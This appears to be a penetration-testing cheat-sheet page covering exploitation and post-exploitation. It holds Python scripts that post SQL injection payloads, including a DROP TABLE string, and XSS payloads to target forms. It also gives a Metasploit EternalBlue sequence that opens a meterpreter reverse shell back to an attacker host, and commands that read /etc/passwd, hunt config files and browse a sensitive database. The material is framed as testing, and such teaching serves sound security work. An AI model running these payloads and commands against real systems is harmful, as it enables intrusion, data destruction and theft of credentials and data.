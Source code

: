 ### 2. Vulnerability Exploitation

#### Web Application Exploitation
```python
# SQL Injection Exploitation
import requests

# Basic SQL injection test
def test_sql_injection(url, param):
    payloads = ["'", "' OR '1'='1", "'; DROP TABLE users;--"]
    for payload in payloads:
        data = {param: payload}
        response = requests.post(url, data=data)
        if "error" in response.text.lower():
            print(f"Potential SQL injection: {payload}")

# XSS Exploitation
def test_xss(url, param):
    payloads = ["<script>alert('XSS')</script>", "<img src=x onerror=alert('XSS')>"]
    for payload in payloads:
        data = {param: payload}
        response = requests.post(url, data=data)
        if payload in response.text:
            print(f"XSS vulnerability found: {payload}")
```

#### Network Exploitation
```bash
# Metasploit Framework
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.50
exploit

# Manual Exploitation
# Buffer overflow exploitation
# Privilege escalation techniques
# Lateral movement strategies
```

### 3. Post-Exploitation

#### Data Exfiltration Testing
```bash
# File System Access
ls -la /etc/
cat /etc/passwd
find / -name "*.conf" 2>/dev/null

# Database Access
mysql -u root -p
show databases;
use sensitive_db;
show tables;

# Network Pivoting
# SSH tunneling
# Port forwarding
# Credential harvesting
```

---
